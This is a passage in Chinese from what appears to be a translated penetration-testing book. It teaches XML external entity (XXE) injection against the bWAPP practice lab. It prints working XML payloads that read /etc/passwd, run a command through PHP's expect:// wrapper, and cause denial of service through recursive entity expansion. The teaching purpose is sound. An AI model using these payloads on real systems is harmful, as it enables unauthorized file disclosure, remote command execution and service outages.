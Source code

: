 在 XML 中，一个**实体**是一个可以是内部或外部的存储单元。内部实体是指在其声明中定义了其值的实体，而外部实体则从外部资源（如文件）中获取值。当应用程序接收来自用户的一些 XML 格式的输入并处理其中声明的外部实体时，它容易受到**XML 外部实体**（**XXE**）注入的影响。

我们将再次使用 bWAPP，在 /A7 - Missing Functional Level Access Control/ 中使用 XEE 练习来进行实践。在那里，你将只看到一个带有按钮的文本，当你点击时似乎什么也没有发生。然而，让我们检查代理的记录请求：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00160.jpeg)

因此，在这里你正在发送一个包含你的用户名和一些秘密的 XML 结构。你发送请求给 Repeater，以进一步分析和测试。首先，尝试创建一个内部实体，看看服务器是否处理它。要做到这一点，请提交以下 XML：

```

<!DOCTYPE test [ <!ENTITY internal-entity "boss" >]>

<reset><login>&internal-entity;</login><secret>Any bugs?</secret></reset>

```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00161.jpeg)

在这里我们创建了一个名为`internal-entity`的实体，其值为`"boss"`，然后我们使用该实体来替换登录值，这反映在响应中。这意味着你通过该实体加载的任何内容都将被服务器处理和反映。

尝试加载一个文件，如下所示：

```

<!DOCTYPE test [  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00162.jpeg)

使用`SYSTEM`，你正在定义一个外部实体。这加载一个文件(`/etc/passwd`)，服务器将在其响应中显示结果。

如果解析器未正确配置，并且加载了`expect` PHP 模块，你还可以通过 XEEs 获得远程执行权限：

```

<!DOCTYPE test [  <!ENTITY xxe SYSTEM "expect://uname -a" >]>

```

# 实体扩展攻击

即使解析器不允许外部实体，允许内部实体仍然可能被恶意用户利用并导致服务器中断。由于所有 XML 解析器都会使用其定义的值来替换实体，因此可以创建一组递归实体，以便服务器可以处理大量信息，直到无法响应。

这被称为**实体扩展攻击**。以下结构是一个简单的概念证明：

```

<!DOCTYPE test [

<!ENTITY entity0 "Level0-">

<!ENTITY entity1 "Level1-&entity0;">

<!ENTITY entity2 "Level2-&entity1;&entity1;">

<!ENTITY entity3 "Level3-&entity2;&entity2;&entity2;">

<!ENTITY entity4 "Level4-&entity3;&entity3;&entity3;&entity3;">

<!ENTITY entity5 "Level5-&entity4;&entity4;&entity4;&entity4;&entity4;">

]>

<reset><login>&entity0;</login><secret>Any bugs?</secret></reset>
```
